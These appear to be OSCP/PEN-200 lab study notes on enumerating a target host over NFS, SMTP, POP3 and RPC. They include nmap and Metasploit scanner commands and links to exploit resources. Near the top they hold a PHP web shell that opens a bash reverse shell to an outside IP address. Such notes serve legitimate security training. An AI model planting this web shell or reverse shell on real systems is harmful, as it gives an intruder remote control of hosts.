 [[https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/]{.underline}](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/)

Create file shell.txt :

\<?php echo shell_exec(\"bash -i \>& /dev/tcp/173.249.15.168/443
0\>&1\");?\>

Alpha oscp :

[[https://forums.offensive-security.com/showthread.php?4689-Offensive-Security-s-Complete-Guide-to-Alpha/page3&p=20552#post20552]{.underline}](https://forums.offensive-security.com/showthread.php?4689-Offensive-Security-s-Complete-Guide-to-Alpha/page3&p=20552#post20552)

**NFS Enumeration :**

**[[https://hack-tips.com/2020/02/21/how-to-find-nfs-mounted-drives-penetration-testing/]{.underline}](https://hack-tips.com/2020/02/21/how-to-find-nfs-mounted-drives-penetration-testing/)**

**Then check pdf pen200 page 203**

**sudo mount -t nfs -o vers=3 10.11.1.72:/home /tmp/nfs**

**SMTP ENUM : port 25**

nmap 10.11.1.72 -p 25 \--script=smtp-\*

[[https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-smtp/README.md]{.underline}](https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-smtp/README.md)

[[https://raw.githubusercontent.com/3mrgnc3/pentest_old/master/postfix-shellshock-nc.py]{.underline}](https://raw.githubusercontent.com/3mrgnc3/pentest_old/master/postfix-shellshock-nc.py)

We\'ll choose three general SMTP auxiliary scripts and see if MSF can
acquire any data we weren\'t able to through Nmap:

msfconsole -q -x \'setg RHOSTS 10.11.1.72;

use auxiliary/scanner/smtp/smtp_enum; run;

use auxiliary/scanner/smtp/smtp_relay; run;

use auxiliary/scanner/smtp/smtp_version; run;

exit\'

Detail read pdf pen200 page 204

**[Services]{.underline}**

[**TCP 110** (Default port for POP3) :]{.underline}

[nc -nvC 10.11.1.72 110]{.underline}

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image19.png){width="5.541666666666667in"
height="2.1145833333333335in"}

**[Information Gathering]{.underline}**

**[Services]{.underline}**

[**TCP 111** (Default port for SUN RPC)]{.underline}
